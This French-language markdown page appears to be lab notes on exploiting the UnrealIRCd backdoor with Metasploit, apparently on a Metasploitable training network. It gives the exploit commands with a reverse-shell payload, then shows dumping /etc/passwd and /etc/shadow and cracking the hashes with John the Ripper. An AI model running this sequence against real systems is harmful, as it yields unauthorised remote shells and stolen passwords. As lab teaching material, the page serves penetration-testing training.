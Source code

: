 ## Exploitation d'UnrealIRCd avec Metasploit


### Commandes à exécuter sur la console Kali

```bash
msfconsole
search ircd
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOST 10.6.0.7
set RPORT 6667
set PAYLOAD cmd/unix/reverse
set LHOST 10.6.0.9
run
```
### Astuces:
Mettre en background : Ctrl + Z <br>
Reprendre sessions <br>
session + (numero id)


### Déchiffrer le hash des mots de passe

```bash
# Metasploit
cat /etc/passwd # copier coller dans un fichier passwd.dmp sur la Kali

# Kali
cat /etc/shadow # copier coller dans un fichier shadow.dmp sur la Kali

unshadow passwd.dmp shadow.dmp > credentials

cat /usr/share/wordlists/metasploitable2 # Fichier avec les mots de passe (attention, éviter les caractère type "@")

john --wordlist=/usr/share/wordlists/metasploitable2 credentials

```

![Déchiffrement du hash MD5](Images/dechiffrement_hash_mdp.png)

> Note : <br>
> Nous sommes dans un cas particulier mais la commande standard ressemple plus à cela :
```bash
 john --wordlist=/usr/share/wordlists/metasploitable2 --format=sha512crypt credentials 
 ```